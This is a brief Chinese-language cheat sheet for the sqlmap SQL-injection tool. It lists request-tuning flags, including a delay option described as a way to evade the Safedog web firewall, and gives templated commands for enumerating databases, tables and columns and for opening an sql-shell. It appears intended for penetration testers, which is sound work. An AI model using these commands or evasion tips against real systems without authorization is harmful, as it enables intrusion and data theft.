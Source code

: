 -  --user-agent = ‘指定的user-agent’ 指定ua

-  --cookie "xx=xx" 指定cookie

-  --referer 

- --random-agent 随机的一个user-agent

- –proxy设置HTTP代理服务器位置 格式:–proxy http(s)😕/ip[端口]

- --delay 0.5 过安全狗
  sqlmap探测过程中会发送大量探测Payload到目标,如果默认情况过快的发包速度会导致目标预警。 为了避免这样的情况发生,可以在探测设置sqlmap发包延迟。默认情况下,不设置延迟

-  --timeout 10.5设置超时;在考虑超时HTTP请求之前,可以指定等待的秒数。有效值是一个浮点数,比如10.5秒。默认是30秒

- --randomize 参数名称  //设置随机参数;sqlmap可以指定要在每次请求期间随机更改其值得参数名称。长度和类型根据提供的原始值保持 一致

- --flush-session 清除缓存

- –-safe-url 隔一会就访问一下的安全URL

- –-safe-post 访问安全URL时携带的POST数据

- –-safe-req 从文件中载入安全HTTP请求

- –-safe-freq 每次测试请求之后都会访问一下的安全URL

### SQLMap渗透时的注意事项

1. 不要使用拖库的选项
2. 尽量不要注入有修改功能的注入点

### SQLMap对url进行get注入

#### 步骤

1. 截取访问链接

2. 找到注入点

3. 查库名

   ```python
   python sqlmap.py -u "注入点" --current-db
   ```

4. 指定库名查表名

   ```python
   python sqlmap.py -u "注入点" -D 库名 --tables
   ```

5. 指定库名、表名查列名

   ```python
   python sqlmap.py -u "注入点" -D 库名 -T 表名 --columns
   ```

6. 获取sql-shell

   ```python
   python sqlmap.py -u "注入点" --sql-shell
   ```

